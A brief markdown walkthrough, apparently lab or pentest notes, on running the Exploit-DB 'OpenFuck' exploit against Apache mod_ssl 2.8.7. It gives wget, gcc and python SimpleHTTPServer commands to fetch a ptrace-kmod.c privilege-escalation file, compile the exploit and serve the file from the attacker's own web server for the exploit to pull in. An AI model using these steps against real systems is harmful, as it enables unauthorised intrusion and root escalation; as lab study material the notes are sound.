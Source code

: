 # Mod SSL 2.8.7 OpenSSL Exploit \(openfu\*kV2.c\)

 source: [https://www.exploit-db.com/exploits/764](https://www.exploit-db.com/exploits/764) source:

Edit exploit code to comment out `#COMMAND2` variable, which is the command to download `ptrace-kmod.c`. Since the url included in this exploit is not valid, we will download the file seperately and host it on our own webserver.

```bash
#download ptrace-kmod.c
wget https://www.exploit-db.com/download/3
```

Usage: 1. compile code

```bash
gcc -o openfuck openfuckV2.c -lcrypto
```

if you encounter missing ld error while compiling at victim machine, try checking your $PATH and make sure it is pointing to the 'ld' file.

1. In your `ptrace-kmod.c` directory start webserver `python -m SimpleHTTPServer 80`
2. In victim machine `.\openfuck`

